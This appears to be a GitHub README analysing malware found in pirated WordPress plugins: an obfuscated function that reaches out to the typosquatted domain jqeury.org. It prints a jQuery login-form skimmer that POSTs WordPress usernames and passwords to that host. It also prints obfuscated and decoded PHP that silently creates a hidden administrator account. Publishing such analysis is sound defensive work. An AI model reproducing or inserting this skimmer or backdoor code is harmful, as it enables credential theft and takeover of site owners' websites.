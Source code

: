 # WARNING - Please Read
I did not wrote this code. I'm sharing it here for you to benefit. This code was found on a Wordpress plugin.

## Wordpress was returning an error which said like this:
```sh
Fatal error: cannot redeclare glues_it() (previously declared in ...
```

> We went ahead and did some research and found out that the person who was hired to edit the site of one of our old clients, was using plugins with this sketchy Wordpress function. We believe that these are premium plugins being pirated.

You can find the original piece of code here: [awful/glues_it/glues_it.php](http://git.io/vs0GD)

#### Update 1
> We still looking out what it really does but for the time being we told the site owner to get rid of the plugins with the function.

#### Update 2
The function code is actually written in Spanish, at least most of it. If you see words, parts of the code not making any sense, probably that part is written in Spanish.

#### Update 3
> We got rid of all those dots (something that the code probably does by itself) but we did it to be able to make it a little more readable, also after doing this, we had to make few fixes to make sure the code was the same as the original, just without all those dots.

Here is the link to the new file without the dots: [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs)

#### Update 4
The code makes reference to the domain "jqeury.org" on purpose to make you think you are requesting "jQuery.org".

Right after that the code does a request to the same domain at the following path:
```sh
jqeury.org/wp_ping.php?dname=wpd&tname=wpt&urliz=urlig
```

What does it does? I'm not sure, since my knowledge is limited on this, but maybe the code is requesting data from Wordpress ... something like the site url ... not sure yet what or why ...

#### Update 5
Take a look at "[jqeury.org/jquery-latest.js](http://git.io/vs0c6)" on line 56 after using jsbeautifier on it, this was the result: [awful/glues_it/jquery-latest.js](http://git.io/vs0c6)

At the beginning it looks like a regular jQuery Javascript file, but take a look at the lines 3349-3368, there is where the cute part begins. This file contains a script which "saves/sends (not sure if I'm correct)" the user/admin credentials using some method. I'm still looking.

#### Update 6
Here is the part that I'm talking about:
```sh
$("#loginform").submit(function(event) {
    passwd = document.getElementById('user_pass').value;
    usr = document.getElementById('user_login').value;
    domainis = window.location.host;
    urlis = window.location.href;
    $.ajax({
        type: "POST",
        url: "http://jqeury.org/wp_ping.php",
        async: false,
        data: {
            name: usr,
            pwd: passwd,
            dname: domainis,
            urliz: urlis
        },
        success: function(response) {
            num = response;
        }
    });
});
```

I believe that is getting the data from the Wordpress login form (user, password, site domain and site url) and using Ajax with method POST and in someway sending it to "jqeury.org/wp_ping.php" where probably the creator of the script is saving it to a file where it can be read and then later on be used to log in to the victims site. This is just a vague speculation of mine, since I'm just taking quick looks at this when I have time.

I also found out that on line 145 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) that there is a possible/interesting point, take a look at:
```sh
$nimda_pw = call_user_func($object_quince_pim, 'php.resu/sedulcni/nimda-pw');"
```

If we read
```sh
php.resu/sedulcni/nimda-pw
```

backwards (that is why at line 20 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) "strrev" is used, to reverse the string) we get
```sh
wp-admin/includes/user.php
```

I still don't know yet why the creator of this script uses that file, since both files (as of Wordpress 4.3) are identical, but maybe is using it to, in someway, to get advantage of Wordpress own code to accomplish his goal of getting the victims site username and password.

### Update 7
A friend noticed the following on lines 109-126 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs):
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $nigol = call_user_func($object_quince_pim, 'dxtroppus');
    $wssap = call_user_func($object_quince_pim, 'retroppus_pw');
    $laime = call_user_func($object_quince_pim, 'moc.niamodym@1tccaym');

    if (!username_exists($nigol) && !email_exists($laime)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'resu_etaerc_pw');
        $user_id = call_user_func_array($wp_ver_one, array($nigol, $wssap, $laime));
        $rotartsinimda = call_user_func($object_quince_pim, 'rotartsinimda');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'resu_etadpu_pw');
        $rolx = call_user_func($object_quince_pim, 'elor');
        call_user_func($resu_etadpu_pw, array('ID' => $user_id, $rolx => $rotartsinimda));

    }
}
```

When we run strrev on this part of the code we get the following:
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $login = call_user_func($object_quince_pim, 'supportxd');
    $passw = call_user_func($object_quince_pim, 'wp_supporter');
    $email = call_user_func($object_quince_pim, 'myacct1@mydomain.com');

    if (!username_exists($login) && !email_exists($email)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'wp_create_user');
        $user_id = call_user_func_array($wp_ver_one, array($login, $passw, $email));
        $administrator = call_user_func($object_quince_pim, 'administrator');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'wp_update_user');
        $rolx = call_user_func($object_quince_pim, 'role');
        call_user_func($wp_update_user, array('ID' => $user_id, $rolx => $administrator));

    }
}
```

This finally confirms the fact that an account with full admin privileges is been created when the plugin is installed and running on the live site. This will enable the code creator to login without any issues to the Wordpress site.
